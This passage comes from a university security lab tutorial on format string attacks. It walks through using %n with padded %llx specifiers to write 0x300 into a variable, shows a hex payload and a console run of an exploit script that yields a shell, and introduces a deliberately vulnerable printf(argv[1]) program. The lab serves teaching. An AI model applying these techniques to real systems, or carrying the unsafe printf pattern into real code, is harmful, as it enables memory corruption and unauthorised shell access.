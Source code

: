 In the last run we get the `4141414141414141` representation of `AAAAAAAA`.
That means that, if we replace the final `%lx` with `%n`, we will write at the address `0x4141414141414141` the number of characters processed so far:

```console
$ echo -n '7fffffffdcc07fffffffdcc01f6022997ffff7fd44c0786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c2540000a' | wc -c
162
```

We need that number to be `0x300`.
You can fine tune the format string by using a construct such as `%32llx` to print a number on `32` characters instead of a maximum of `16` characters.
See how much extra room you need and see if you reach `0x300` bytes.

The construct needn't use a multiple of `8` for length.
You may use the `%32llx` or `%33llx` or `%42llx`.
The numeric argument states the length of the print output.

After the plan is complete, write down the attack by filling the `TODO` lines in the `exploit.py` solution skeleton.

When sending your exploit to the remote server, adjust this address according to the binary running on the remote endpoint.
The precompiled binary can be found in [the CNS public repository](https://github.com/systems-cs-pub-ro/cns/blob/master/labs/07-strings/03-basic-format-string/basic_format_string).

After you write 0x300 chars in v, you should obtain shell

```console
$ python exploit64.py
[!] Could not find executable 'basic_format_string' in $PATH, using './basic_format_string' instead
[+] Starting local process './basic_format_string': pid 20785
[*] Switching to interactive mode
                                     7fffffffdcc0  7fffffffdcc01f60229b7ffff7dd18d03125786c6c393425786c6c25786c6c34786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25a6e25
$
```

## Extra: Format String Attack

Go to the `04-format-string/` subfolder.
In this task you will be working with a **32-bit binary**.

The goal of this task is to call `my_evil_func` again.
This task is also tutorial based.

```c
int main(int argc, char *argv[])
{
    printf(argv[1]);
    printf("\nThis is the most useless and insecure program!\n");
    return 0;
}
```
